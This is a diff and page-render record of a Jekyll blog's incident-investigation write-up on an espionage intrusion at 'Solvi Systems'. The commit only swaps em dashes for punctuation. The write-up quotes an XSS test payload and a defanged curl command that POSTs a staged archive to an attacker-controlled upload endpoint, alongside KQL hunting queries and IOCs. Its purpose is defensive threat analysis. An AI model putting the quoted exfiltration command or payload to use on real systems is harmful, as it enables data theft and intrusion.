

Before and after one commit to joshberk/joshberk.github.io, a Jekyll site: the page built from _investigations/solvi-systems.md, in a window 1280 px wide and 900 px high, scrolled down 1164 px. Shown: the part 472-769 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
deletion of terms in content

````diff
--- a/_investigations/solvi-systems.md
+++ b/_investigations/solvi-systems.md
@@ -34,9 +34,9 @@
 
 ## Executive Summary
 
-Between May 1 and May 28, 2024, a targeted, multi-stage cyber-espionage campaign successfully compromised **Solvi Systems**. Because Solvi Systems develops the proprietary **DOCKS Industrial Control Systems (ICS)** software which manages energy distribution networks across South Africa, Mozambique, Eswatini, Zimbabwe, and Namibia — this intrusion represented a severe regional critical-infrastructure supply-chain risk and a latent public-safety threat.
+Between May 1 and May 28, 2024, a targeted, multi-stage cyber-espionage campaign successfully compromised **Solvi Systems**. Because Solvi Systems develops the proprietary **DOCKS Industrial Control Systems (ICS)** software which manages energy distribution networks across South Africa, Mozambique, Eswatini, Zimbabwe, and Namibia this intrusion represented a severe regional critical-infrastructure supply-chain risk and a latent public-safety threat.
 
-The adversary used initial web reconnaissance and defensive-evasion techniques to deliver targeted spear-phishing lures. After gaining initial access to a corporate operations endpoint, the actor established persistent Command-and-Control (C2) beaconing via custom malware (`ecobug.exe`), executed localized privilege escalation, and moved laterally into a customer-facing engineering role (Docks Customer Success). The operation culminated in the targeted collection, compression, and exfiltration of sensitive Software Development Lifecycle (SDLC) blueprints and product documentation — exposing downstream utility substations to potential future kinetic disruption.
+The adversary used initial web reconnaissance and defensive-evasion techniques to deliver targeted spear-phishing lures. After gaining initial access to a corporate operations endpoint, the actor established persistent Command-and-Control (C2) beaconing via custom malware (`ecobug.exe`), executed localized privilege escalation, and moved laterally into a customer-facing engineering role (Docks Customer Success). The operation culminated in the targeted collection, compression, and exfiltration of sensitive Software Development Lifecycle (SDLC) blueprints and product documentation exposing downstream utility substations to potential future kinetic disruption.
 
 ## 1. Incident Timeline
 
@@ -71,7 +71,7 @@
 | count
 ```
 
-{% include figure.html src="/assets/images/posts/operation-dockshock/s-2.png" alt="KQL Email query result showing a count of 31 inbound emails to the CTO" caption="Figure 2: Inbound email count to the CTO — 31 messages identified." %}
+{% include figure.html src="/assets/images/posts/operation-dockshock/s-2.png" alt="KQL Email query result showing a count of 31 inbound emails to the CTO" caption="Figure 2: Inbound email count to the CTO, 31 messages identified." %}
 
 **Result:** 31 inbound emails identified. Baseline network profiling also revealed that the threat actor was aggressively monitoring the domain, hunting for organizational context surrounding the docks-ics product string.
 
@@ -86,7 +86,7 @@
 | project timestamp, src_ip, user_agent, url, status_code
 ```
 
-{% include figure.html src="/assets/images/posts/operation-dockshock/s-3.png" alt="Web log inbound event from 13[.]201[.]46[.]208 with a 404 error code and Opera/8.64 user-agent string" caption="Figure 3: Perimeter probe from 13[.]201[.]46[.]208 — 404 responses and an anomalous Opera/8.64 user agent." %}
+{% include figure.html src="/assets/images/posts/operation-dockshock/s-3.png" alt="Web log inbound event from 13[.]201[.]46[.]208 with a 404 error code and Opera/8.64 user-agent string" caption="Figure 3: Perimeter probe from 13[.]201[.]46[.]208, 404 responses and an anomalous Opera/8.64 user agent." %}
 
 *   **Attacker Payload:** `</script><script>alert('xss')</script>`
 *   **WAF Mitigation Status:** Deflected. The web server responded with a 404 Status Code, preventing script execution.
@@ -173,7 +173,7 @@
 
 The collected assets were compressed locally into `C:\Users\alpetrov\CollectedData\CollectedData.zip`. To prepare for exfiltration, the actor relocated this staging archive out of the user directory into a localized root path, renaming it to `C:\DataExfil\CollectedData.zip` to streamline programmatic access. Concurrently, the attacker compromised three distinct internal accounts to browse the developer intranet (devportal[.]solvisystems[.]com) and read the internal_process.pdf deployment documentation. The adversary even used compromised mailboxes to distribute phishing messages internally under urgent security headings (Urgent Request: DOCKS System Documentation) to gather structural details.
 
-On May 28, 2024, the adversary leveraged `curl.exe` — a native utility that ships by default with modern Windows — as a **Living-off-the-Land Binary (LotLBin)** to bypass standard file-transfer protocol tracking, exfiltrating the source blueprint archive directly over an HTTP POST stream:
+On May 28, 2024, the adversary leveraged `curl.exe` a native utility that ships by default with modern Windows as a **Living-off-the-Land Binary (LotLBin)** to bypass standard file-transfer protocol tracking, exfiltrating the source blueprint archive directly over an HTTP POST stream:
 
 ```kql
 // Query 7: Catching the final data exfiltration process command
@@ -181,7 +181,7 @@
 | where process_commandline contains "curl" and process_commandline contains "upload"
 ```
 
-{% include figure.html src="/assets/images/posts/operation-dockshock/s-7.png" alt="Curl command performing a file POST to api[.]eco-awareness-update[.]net" caption="Figure 7: curl exfiltration — file POST to the adversary API node api[.]eco-awareness-update[.]net." %}
+{% include figure.html src="/assets/images/posts/operation-dockshock/s-7.png" alt="Curl command performing a file POST to api[.]eco-awareness-update[.]net" caption="Figure 7: curl exfiltration file POST to the adversary API node api[.]eco-awareness-update[.]net." %}
 
 *   **Exfiltration Command Line:** curl -F 'file=@C:\DataExfil\CollectedData.zip' hxxps://api[.]eco-awareness-update[.]net/upload
 
@@ -198,7 +198,7 @@
 | Collection | T1074.001 | Data Staging: Local Data Staging | Consolidation of SDLC files into C:\DataExfil\CollectedData.zip. |
 | Exfiltration | T1567 | Exfiltration Over Web Service | Exfiltration of core source blueprints via a native LotLBin (curl.exe) web POST. |
 
-<!-- Section: Proactive Detection Engineering (Sigma & KQL rules) — to be added later, once the detections can be operationally justified. -->
+<!-- Section: Proactive Detection Engineering (Sigma & KQL rules) to be added later, once the detections can be operationally justified. -->
 
 ## 4. Consolidated Indicators of Compromise (IOCs)
 
````
